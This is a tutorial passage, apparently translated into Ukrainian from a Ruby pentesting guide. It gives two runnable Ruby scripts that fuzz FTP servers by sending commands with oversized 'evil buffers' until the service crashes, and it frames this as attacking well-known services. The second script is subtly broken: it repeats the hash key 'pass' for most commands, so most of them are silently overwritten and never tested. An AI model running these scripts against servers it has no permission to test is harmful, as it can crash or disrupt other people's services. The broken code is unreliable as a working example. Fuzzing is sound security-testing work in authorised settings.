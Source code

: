 # Фазер (Fuzzer)

Фазери за звичай використовуються для найпоширеніших або якихось конкретних програм. В цій частині ми покажемо як атакувати найбільш відомі сервіси, використовуючи Рубі. Запам'ятайте, Фазерство це **мистецтво зламати щось**, це не інструменти чи програма.


**Типи фазерів**
- Мутація (Mutation)
- Метадані(Metadata), Файловий формат.

## Мутація


### FTP Фазер

Основна ідея фазінгу FTP сервісів - це перевірити розмір буферів всіх команд. Тим не менш, це не завжди так, наприклад, можна протестувати бефер логіну та пароля. Крім того, цей метод можу бути застосованим до інших сервісів, навіть не стандартних.

```ruby
#!/bin/ruby
# KING SABRI | @KINGSABRI
# Simple FTP COMMNDS Fuzzer
#
require 'socket'

class String
  def red; colorize(self, "\e[31m"); end
  def green; colorize(self, "\e[32m"); end
  def colorize(text, color_code);  "#{color_code}#{text}\e[0m" end
end

mark_Red   = "[+]".red
mark_Green = "[+]".green


host = ARGV[0] || "127.0.0.1"
port = ARGV[1] || 21

# List of FTP protocol commands
cmds = ["MKD","ACCL","TOP","CWD","STOR","STAT","LIST","RETR","NLST","LS","DELE","RSET","NOOP","UIDL","USER","APPE"]

buffer  = ["A"]
counter = 1

cmds.each do |cmd|
  buffer.each do |buf|

    while buffer.length <= 40
      buffer << "A" * counter
      counter += 100
    end

    s = TCPSocket.open(host, port)
    s.recv(1024)
    s.send("USER ftp\r\n", 0)
    s.recv(1024)
    s.send("PASS ftp\r\n", 0)
    s.recv(1024)
    puts mark_Red + " Sending " + "#{cmd} ".green + "Command with " + "#{buf.size} bytes ".green  + "Evil buffer" + ".".green
    s.send(cmd + " " + buf + "\r\n", 0)
    s.recv(1024)
    s.send("QUIT\r\n", 0)
    s.close
  end
  puts "~~~~~~~~~~~~~~~~~~~~".red
  sleep 0.5
end
```

I was thinking of making it a bit more elegant to give myself a chance to inspect and configure each command separately.

```ruby
#!/usr/bin/evn ruby
#
# KING SABRI | @KINGSABRI
# Simple FTP COMMNDS Fuzzer
#
require 'socket'

if ARGV.size < 1 
  puts "#{__FILE__} <host> [port]"
  exit 0 
else
  @host = ARGV[0]
  @port = ARGV[1] || 21
end

def fuzz(payload)
  begin 
  s = TCPSocket.open(@host, @port)
  s.recv(2048)
  s.send payload, 0
  s.recv(2048)
  s.close
  rescue
    puts "Crash detected after #{payload.size} bytes"
    exit 0
  end
end

def insertion(point="", buffer=0)
  buffer = buffer * 10
  points = 
    {
      core:           "A" * buffer,
      user: "USER " + "B" * buffer + "\r\n",
      pass: "PASS " + "C" * buffer + "\r\n",
      pass: "ACCL " + "D" * buffer + "\r\n",
      pass: "APPE " + "E" * buffer + "\r\n",
      pass: "CWD "  + "F" * buffer + "\r\n",
      pass: "DELE " + "G" * buffer + "\r\n",
      pass: "LIST " + "H" * buffer + "\r\n",
      pass: "LS "   + "I" * buffer + "\r\n",
      pass: "MKD "  + "J" * buffer + "\r\n",
      pass: "NLST " + "K" * buffer + "\r\n",
      pass: "NOOP " + "L" * buffer + "\r\n",
      pass: "RETR " + "M" * buffer + "\r\n",
      pass: "RSET " + "N" * buffer + "\r\n",
      pass: "STAT " + "O" * buffer + "\r\n",
      pass: "STOR " + "P" * buffer + "\r\n",
      pass: "TOP "  + "Q" * buffer + "\r\n",
      pass: "UIDL " + "R" * buffer + "\r\n"
      }
  return points[point] unless point.empty?
  points
end

puts "[+] Fuzzing #{@host} on port #{@port}..."
insertion.keys.each do |point|
  (1..500).each do |buffer|
    
    puts "[+] Fuzzing #{point.to_s}: #{insertion(point, buffer).size} bytes"
    fuzz insertion(point, buffer)
    
  end
end
```
> Note that, this script can be used for other protocols (IMAP, POP3, etc) since it deals with socket!. 





<br><br><br>
---
